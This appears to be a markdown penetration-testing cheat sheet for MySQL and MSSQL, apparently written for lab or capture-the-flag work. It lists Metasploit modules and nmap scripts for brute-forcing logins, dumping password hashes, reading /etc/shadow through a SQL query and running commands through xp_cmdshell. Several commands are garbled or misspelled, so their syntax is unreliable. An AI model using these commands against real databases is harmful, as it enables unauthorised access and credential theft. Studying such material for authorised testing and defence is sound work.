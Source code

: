 # **MYSQL**

Logging into Mysql on remote host -- ```mysql -h (IP address) -u root```

**Using database**  
```show databases ---then type semicolon```  
```use (database name);```  
```select count(*) from authors;```  
```select * from authors```  

**Finding Writable directories**  
Metasploit Module -- scanner/mysql/mysql_writable_dirs  
Finding hashes  -- ```use auxiliary/scanner/mysql/mysql_hashdump```  
Getting the full etc/shadow file -- ```select load_file("/etc/shadow");```

### Metasploit
Dictionary attack against Mysql  
**Login Module** -- auxiliary/scanner/mysql/mysql_login

User File -- /usr/share/metasploit-framework/data/wordlists/common_users.txt  
Password File -- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  

**Login Module**-- auxiliary/scanner/mysql/mysql_enum  
**SQL logins Module** -- auxiliary/scanner/mysql/mysql_enum_sql_logins
Execute commands -- Login Module -- auxiliary/scanner/mysql_exec  
Enumerate domain accounts -- Login Module -- auxiliary/scanner/mysql/mysql_enum_domain_accounts

# **MSSQL**

Nmap scripts  
```nmap (ip address) -p (port number) --script ms-sql-info```  
```nmap (ip address) -p (port number) --script ms-sql-ntlm-info --script-args mssql.instance-port=1433```  
```nmap (ip address) -p (port number) --script ms-sql-brute --script-args userdb=/root/Dessktop/wordlist/common_users.txt,passdb=/root/Dekstop/wordlist/100-common-passwords.txt```  
```nmap (ip address) -p (port number) --script ms-empty-password```  
```nmap (ip address) -p (port number) --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" -oN output.txt```  
```nmap (ip address) -p (port number) --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria```  
```nmap (ip address) -p (port number) --script ms-sql-xp-cmdshell.cmd="type c:\flag.txt ```
